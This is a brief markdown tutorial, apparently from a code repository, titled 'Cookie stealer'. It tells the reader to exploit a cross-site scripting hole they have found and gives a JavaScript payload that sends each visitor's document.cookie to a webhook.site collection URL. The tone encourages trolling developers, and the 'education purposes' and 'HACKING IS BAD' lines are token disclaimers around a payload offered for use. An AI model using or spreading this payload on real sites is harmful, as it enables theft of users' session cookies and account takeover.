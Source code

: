 # Cookie stealer
This article is for education purposes.<br><br>
Your on your favorite site, when Boom! You find an XSS point. And because your a nuisance to society, you decide to exploit it, to troll those nasty devs.
## How to started
for this tutorial, first use a tool, for example, [Webhook.site](https://webhook.site), it should be able to track all the visits, and the params you send to it!
## Now what?
After you got yourself suited, you will exloit the xss to add something with your webhook, such as:
```javascript
fetch(webhook-url? + document.cookie)
```
Ill use:
```javascript
fetch('https://webhook.site/13da85f1-7bc4-4af2-940a-6b0f9c22bd4b?' + document.cookie)
```
Now, anyone who commits to the xss, such as a img onload, it will run this, exposing your cookie to an online attack. Stay safe. <br><b>HACKING IS BAD!!!! ONLY DO IT ETHICALLY!!!</b>